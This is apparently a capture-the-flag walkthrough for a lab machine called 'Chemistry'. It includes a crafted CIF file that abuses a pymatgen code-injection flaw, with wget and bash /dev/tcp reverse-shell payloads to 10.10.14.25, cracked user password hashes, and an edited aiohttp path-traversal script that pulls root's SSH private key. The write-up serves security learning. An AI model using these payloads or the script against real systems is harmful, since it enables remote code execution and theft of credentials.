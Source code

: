 # Chemistry

# Nmap

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

We see we have 2 ports open ssh and a flask aplication on port 5000

# Site enumeration

I log in and test out the file upload section. After some googling I find i is vulnerable to [cif ACI](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f).

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system("wget 10.10.14.25:9000");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.25/9000 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

The above cif file gives us a revserse shell!!

# Remote shell

I upload linpeas.sh and run a scan

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

After some googling I relaise this is an exploit ive used already in the blunder miflin retired box! Lets run it again. Anddd it is not that simple :(

Looking around at the files we find a database in the instance folder and inside we find some hashed passwords.

Lets crack:

3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5 -> unicorniosrosados

6|carlos|9ad48828b0955513f7cf0f7f6510c8f8 -> carlos123&#x20;

7|peter|6845c17d298d95aa942127bdad2ceb9b  -> peterparker

8|victoria|c3601ad2286a4293868ec2a4bc606ba3 -> victoria123

# Ssh session

Now lets ssh as rosa with that pasword we found and we get the user flag!

Usinf netsat we can find an open port as 8080 with is a python/3.9 aiohttp/3.9.1 server after some googling we can find an [exploit](https://raw.githubusercontent.com/z3rObyte/CVE-2024-23334-PoC/refs/heads/main/exploit.sh).

We have to do some manual edditing here to get the roots ssh key. I was stuck on this for an incredibly long time I initially copied the key from the terminal and tried to use that. But it got rejected over and over again because it was not in the right format eventuall i changed the script to download the file and sshed into the root account from the rosa account see edited code:

```
!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $url$payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is --output key.pem "$url$payload$file" 
        break
    fi
done

```

We can insert a reverse shell and get root!!

PWNDDDD
